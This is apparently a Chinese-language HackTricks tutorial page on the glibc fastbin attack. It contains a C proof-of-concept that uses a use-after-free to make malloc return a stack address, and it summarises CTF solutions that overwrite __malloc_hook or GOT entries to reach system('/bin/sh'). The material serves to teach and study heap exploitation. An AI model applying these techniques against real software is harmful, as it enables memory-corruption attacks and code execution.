 # Fast Bin Attack

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

有关快速 bin 的更多信息，请查看此页面：

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

由于快速 bin 是一个单链表，因此其保护措施远少于其他 bin，仅需 **修改已释放的快速 bin** 块中的地址即可 **在任何内存地址分配后续块**。

总结如下：

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

您可以在一个非常详细解释的代码中找到完整的示例，链接为 [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
{% hint style="danger" %}
如果可以用一个大数字覆盖全局变量 **`global_max_fast`** 的值，这将允许生成更大尺寸的快速 bin 块，可能在之前无法进行快速 bin 攻击的场景中实现。这种情况在 [large bin attack](large-bin-attack.md) 和 [unsorted bin attack](unsorted-bin-attack.md) 的上下文中非常有用。
{% endhint %}

## 示例

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
* 可以分配块，释放它们，读取其内容并填充它们（通过溢出漏洞）。
* **合并块以进行信息泄露**：该技术基本上是利用溢出创建一个假的 `prev_size`，使一个之前的块放入一个更大的块中，因此在分配包含另一个块的更大块时，可以打印其数据并泄露一个 libc 地址（`main_arena+88`）。
* **覆盖 malloc hook**：为此，利用之前的重叠情况，可以有两个块指向相同的内存。因此，释放它们两个（在中间释放另一个块以避免保护）可以使同一个块在快速 bin 中出现两次。然后，可以再次分配它，覆盖下一个块的地址，使其指向 `__malloc_hook` 之前的一点（因此指向一个 malloc 认为是空闲大小的整数 - 另一种绕过），再次分配它，然后分配另一个块，该块将接收指向 malloc hooks 的地址。\
最后，一个 **one gadget** 被写入其中。
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
* 存在堆溢出和使用后释放以及双重释放，因为当一个块被释放时，可以重用和重新释放指针。
* **Libc 信息泄露**：只需释放一些块，它们将获得指向主 arena 位置一部分的指针。由于可以重用已释放的指针，只需读取此地址。
* **快速 bin 攻击**：所有分配的指针都存储在一个数组中，因此我们可以释放几个快速 bin 块，并在最后一个块中覆盖地址以指向该指针数组之前的一点。然后，分配几个相同大小的块，我们将首先获得合法的一个，然后是包含指针数组的伪造块。我们现在可以覆盖此分配指针，使 `free` 的 GOT 地址指向 `system`，然后在块 1 中写入 `"/bin/sh"`，然后调用 `free(chunk1)`，这将执行 `system("/bin/sh")`。
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html)
* 另一个示例是利用一个字节溢出在未排序的 bin 中合并块并获取 libc 信息泄露，然后执行快速 bin 攻击以用 one gadget 地址覆盖 malloc hook。
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html)
* 在利用未排序的 bin 进行信息泄露后，通过 UAF 泄露 libc 地址和 PIE 地址，此 CTF 的利用使用快速 bin 攻击在指向受控块的指针所在的位置分配一个块，因此可以覆盖某些指针以在 GOT 中写入 one gadget。
* 你可以找到通过未排序的 bin 攻击滥用的快速 bin 攻击：
* 请注意，在执行快速 bin 攻击之前，滥用空闲列表以泄露 libc/heap 地址（在需要时）是很常见的。
* [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
* 我们只能分配大于 `0x100` 的块。
* 使用未排序的 bin 攻击覆盖 `global_max_fast`（由于 ASLR，成功率为 1/16，因为我们需要修改 12 位，但必须修改 16 位）。
* 快速 bin 攻击以修改全局块数组。这提供了一个任意读/写原语，允许修改 GOT 并将某些函数指向 `system`。

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术： <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
